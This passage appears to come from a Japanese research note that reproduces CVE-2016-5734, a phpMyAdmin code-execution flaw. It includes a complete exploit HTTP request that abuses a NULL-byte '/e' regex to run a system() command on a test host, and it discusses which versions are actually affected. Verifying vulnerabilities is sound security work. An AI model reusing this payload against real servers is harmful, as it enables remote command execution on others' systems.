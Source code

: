  * 任意のデータベースを作成する
 * 任意のテーブルを作成する
 * TEXT型のカラムを作成する
 * 作成したカラムに`.*/e`という値を挿入する
 * Find and Replaceタブから以下のようなクエリを作成する

```
POST /phpmyadmin4.4/tbl_find_replace.php HTTP/1.1
Host: vlun.test
Content-Length: 298
Accept: */*
Origin: http://vlun.test
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: http://vlun.test/phpmyadmin4.4/db_central_columns.php
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.8,en;q=0.6
Cookie: pma_lang=ja; pma_collation_connection=utf8_unicode_ci; phpMyAdmin=h570mmbre13ohk3op3l5eoqkpi5r8c96; pma_iv-1=qfC3X1Rxqy%2BHM111U45i8A%3D%3D; pmaUser-1=Dpkv889nDY4H%2FGEo9zXw3w%3D%3D; pmaPass-1=EavpW0IpaWRAgGMgCEpTVg%3D%3D; pma_console_height=92; auto_saved_sql=SELECT%20*%20from%20test%20where%20NOT%20%3D%20'hoge'%3B; pma_console_config=%7B%22alwaysExpand%22%3Afalse%2C%22startHistory%22%3Afalse%2C%22currentQuery%22%3Atrue%7D; pma_console_mode=collapse
Connection: close

db=CVE-2016-5734&table=CVE-2016-5734&token=cc00761075dea256255cabd2b9e6a0b6&goto=&back=tbl_find_replace.php&find=.*%2Fe%00&replaceWith=system%28%27%2Fusr%2Fbin%2Ftouch+%2Ftmp%2FCVE-2016-5734%27%29%3B&columnIndex=0&useRegex=on&submit=%E5%AE%9F%E8%A1%8C&ajax_request=true&_nocache=1468572249141822862
```

 * /tmp/CVE-2016-5734というファイルが作成されることを確認する

### phpMyAdmin4.6.2に関わる技術的な調査

phpMyAdmin4.6.2に関してはphp5.5上での動作しかできないため、NULL終端攻撃ができない。よって、CVE-2016-5734は発現しないと考える。

## まとめ

CVE-2016-5734はPHP5.4.6以下の利用していた場合に、phpMyAdmin4.4系のみで発現する脆弱性だと思われる。

## 得られた知見

 * PHPのPCRE関数は英数字、バックスラッシュ、空白文字以外の任意の文字を[デリミタ](http://php.net/manual/ja/regexp.reference.delimiters.php)として使うことができる
 * PHP5.4.6以下ではNULL終端攻撃を使用することができる。

## 得られた疑問

調査の結果、NVDとかなり異なる影響範囲になった。確かにNVDが対象とするソースには問題があるが、実際に攻撃可能かというと疑問がある。私の調査に不備があるのか、NVDの影響範囲の出し方の考え方が異なるのかが知りたい。
